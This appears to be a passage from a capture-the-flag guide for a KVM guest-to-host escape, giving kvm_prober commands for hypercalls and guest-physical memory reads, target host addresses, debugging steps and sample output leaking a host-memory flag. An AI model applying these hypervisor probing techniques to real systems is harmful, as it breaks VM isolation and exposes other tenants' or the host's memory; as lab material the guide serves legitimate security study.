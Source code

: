 2. **Test basic functionality:**
   ```bash
   # Allocate shared buffer
   ./kvm_prober alloc_shared
   
   # Try simple hypercall
   ./kvm_prober hypercall 0 0 0 0 0
   ```

3. **Check guest RAM layout:**
   ```bash
   cat /proc/iomem | grep "System RAM"
   ```

4. **Verify target addresses are correct:**
   - Write flag: 0x64279a8
   - Read flag: 0x695ee10

### Advanced Debugging

1. **Enable more logging:**
   ```bash
   echo 8 > /proc/sys/kernel/printk
   sudo dmesg -w
   ```

2. **Test individual IOCTLs:**
   ```bash
   # Test GPA read
   ./kvm_prober readgpa 0x1000000 256
   
   # Test hypercall
   ./kvm_prober hypercall 0 0 0 0 0
   ```

3. **Check for crashes:**
   ```bash
   dmesg | grep -E "BUG|Oops|segfault"
   ```

## Expected Output on Success

```
[VECTOR 3] Hypercall-based Memory Access
=========================================

[*] Hypercall 101: read(hpa=0x64279a8, gpa=0x1f000000, size=256)
    Return: 256 (0x100)

[+] Shared buffer has data!

[0x00000001f000000]:
  0000: 66 6C 61 67 7B 73 75 70  65 72 5F 73 65 63 72 65 | flag{super_secre
  0010: 74 5F 68 6F 73 74 5F 6D  65 6D 6F 72 79 5F 72 65 | t_host_memory_re
  0020: 61 64 7D 00 00 00 00 00  00 00 00 00 00 00 00 00 | ad}.............

[!!!] FLAG PATTERN FOUND!
```
